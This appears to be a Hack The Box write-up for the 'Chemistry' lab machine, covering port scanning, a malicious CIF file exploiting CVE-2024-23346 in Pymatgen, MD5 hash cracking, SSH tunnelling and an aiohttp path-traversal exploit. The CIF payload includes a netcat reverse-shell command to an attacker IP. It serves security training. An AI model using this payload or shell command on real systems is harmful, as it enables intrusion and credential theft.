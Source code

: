 <br><br>
**Platform : Hack The Box**

**Box : Chemistry**

**Difficulty : Easy**

**OS : Linux**

<br><br>

Our inital nmap scans reveals two ports open, 22 and 5000.
<br><br>
### `$ nmap -sVC --version-intensity 9 -p 22,5000 -Pn --disable-arp-ping -n chemistry -oN nmap/versions-scan.txt`

`Starting Nmap 7.80 ( [https://nmap.org](https://nmap.org/) ) at 2024-10-22 23:37 CEST`  
`Nmap scan report for chemistry (10.10.11.38)`  
`Host is up (0.51s latency).`

`PORT STATE SERVICE VERSION`  
`22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)` 
`5000/tcp open upnp?` 
`| fingerprint-strings:`  
`| GetRequest:`  
`| HTTP/1.1 200 OK`  
`| Server: Werkzeug/3.0.3 Python/3.9.5`  
`| Date: Tue, 22 Oct 2024 21:37:54 GMT`  
`| Content-Type: text/html; charset=utf-8`  
`| Content-Length: 719`  
`| Vary: Cookie`  
`| Connection: close`  
`|`
`| class="title">Chemistry CIF Analyzer`  
`|`
`Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.`

`<---SNIP--->`


<br><br>
The application provided at port 5000 looks like a parser for *Crystallographic Information Files (CIF)*.
<br><br>
![alt text](<Pasted image 20241023002915-1.png>)
<br><br>
Surfing the web we find the recent *CVE-2024-23346* 

https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0

A vulnerability in the parsing library *Pymatgen versions prior to 2024.2.8*, that executes arbitrary code via *insecure serializazion*.

All we need to do is craft a malicious .cif file, and then inject the command we want to execute in it. We have a template of the file's structure in the link above:

<br><br>

> data_5yOhtAoR
> data_Example
>
> audit_creation_date            2018-06-08
> 
> _audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"
> 
> loop
> 
> parent_propagation_vector.id
> 
> _parent_propagation_vector.kxkykz
> 
> k1 [0 0 0]
> 
> 
> _space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ()._class_._mro_[1]._getattribute_ ( *[().__class__.__mro__[1]]+["_sub" + "classes_"]) () if d._name_ == "BuiltinImporter"][0].load_module ("os").system ("busybox nc 10.10.15.56 1337 -e sh");0,0,0'
> 
> 
> 
> _space_group_magn.number_BNS  62.448
> 
> _space_group_magn.name_BNS  "P  n'  m  a'  "
> 
> 

<br><br>
Experimenting with an active handler and a series of bash payloads from https://www.revshells.com/, we find the right one to be:
<br><br>
> *busybox nc 10.10.15.56 1337 -e sh*

<br><br>

Which allows us to gain a reverse shell:

<br><br>

![alt text](<Pasted image 20241023004209-1.png>)

<br><br>

Checking the app's directory, we're able to retrieve the .db database that has stored all the *user's md5 hashes*, encoded with the following algorythm, as we can read in the *app.py* file.
<br><br>

>    hashed_password = hashlib.md5(password.encode()).hexdigest()

<br><br>

![alt text](<Pasted image 20241023010333-1.png>)

<br><br>

![alt text](<Pasted image 20241023010740-1.png>)

<br><br>

A rapid visit to https://crackstation.net reveals us the cleartext password of rosa's user:

<br><br>

![alt text](<Pasted image 20241102202421.png>)

<br><br>

This is our initial foothold on the machine. We have credentials to access ssh:

<br><br>

> *rosa:<ROSA'S_PASSWORD>*

<br><br>

Running linpeas.sh on the machine, we find out a *service listening on port 8080* of localhost

<br><br>

![alt text](<Pasted image 20241023012150-1.png>)

<br><br>

To enumerate this service, we perform an *SSH tunneling* to our host, using the following command:

<br><br>

`ssh -L 8080:localhost:8080 rosa@10.10.11.38`

<br><br>

This forwards *our localhost's* port 8080 to port 8080 running on 127.0.0.1 (localhost) remote machine.
A rapid nmap scan shows us that Chemistry is running *aiohttp 3.9.1*

<br><br>

![alt text](<Pasted image 20241023012150-2.png>) 

<br><br>

![alt text](<Pasted image 20241102193940-1.png>) 

<br><br>

![alt text](<Pasted image 20241102200205.png>)

<br><br>

and this is the first result if i search it on google:

<br><br>

https://github.com/z3rObyte/CVE-2024-23334-PoC

<br><br>

It looks like aiohttp software it is vulnerable to *path traversal* up to version *3.9.1*. We're going to modify a bit the script to make it run on *our* localhost's port 8080 and try to read *root's flag*. 

<br><br>

![alt text](<Pasted image 20241102200634.png>)

<br><br>

And...

<br><br>

![alt text](<Pasted image 20241102201153.png>)

<br><br>

Success! We have code execution as root user!
